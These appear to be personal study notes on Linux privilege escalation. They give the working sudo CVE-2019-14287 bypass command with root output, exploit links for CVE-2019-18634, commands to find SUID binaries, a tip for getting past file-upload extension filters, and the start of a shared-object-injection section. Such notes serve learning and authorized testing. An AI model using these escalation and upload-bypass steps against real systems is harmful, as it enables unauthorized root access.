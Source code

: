 

## Sudo CVEs

### CVE-2019-14287

→ https://www.exploit-db.com/exploits/47502

```bash
sudo -l

user ALL=(ALL, !root) /bin/bash = user cannot execute /bin/bash

sudo -u#-1 /bin/bash
whoami
root
```

### CVE-2019-18634

→ https://github.com/saleemrashid/sudo-cve-2019-18634

```bash
cat /etc/sudoers
sudo -l
sudo -V
```

> In older machines, if pwfeedback is enable = asterisc appers when you type passwords
we can use an exploit to escalate that


# Escalation Path: SUID (set user ID)


	

## Search for suid files
```bash
find / -perm -u=s -type f 2>/dev/null
```


> If we have an upload file directory, but it does not accept php files
we can send to burp and fuzz the extension, to find an alternative, like php3,php4, phtml, etc


> Go to gtfobins if u find a file with SUID access





## Advanced SUID

### via Shared Object Injection
```bash
find / -perm -4000 -type f  -ls 2>/dev/null

strace <file> 2>&1 | grep -i -E "open|access|somethin else" = trace executable file / the grep just filters
```
